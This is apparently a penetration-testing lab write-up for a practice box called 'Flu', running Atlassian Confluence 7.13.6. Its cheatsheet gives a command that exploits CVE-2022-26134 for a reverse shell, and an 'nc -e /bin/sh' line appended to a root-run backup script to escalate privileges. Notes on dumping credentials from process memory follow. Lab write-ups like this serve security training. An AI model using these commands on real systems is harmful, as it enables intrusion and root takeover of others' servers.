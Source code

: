 # Flu \[Inter]

## Report



## Cheatsheet

```
python3 through_the_wire.py --rhost 192.168.222.41 --rport 8090 --lhost 192.168.45.238 --protocol http:// --reverse-shell
echo "busybox nc 192.168.45.238 8001 -e /bin/sh" >> log-backup.sh
```

## Loot

### Enumeration

192.168.222.41

22, 8090

#### 8090

Atlassian Confluence 7.13.6

### Attack Vectors

[CVE-2022-26134](https://github.com/jbaines-r7/through_the_wire/blob/main)

### PrivEsc

```
-rwxr-xr-x 1 confluence confluence 408 Dec 12  2023 /opt/log-backup.sh

tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8090                 :::*                    LISTEN      1123/java           
tcp6       0      0 :::8091                 :::*                    LISTEN      1420/java           
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:8000          :::*                    LISTEN      1123/java  

mysql process found (dump creds from memory as root)
tomcat process found (dump creds from memory as root)

/opt/atlassian/confluence pwd
/opt/atlassian/confluence/confluence - search passwords here
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption><p>pspy output see script owned by 'confluence' is run as root</p></figcaption></figure>

### Creds

None

### Proof

None
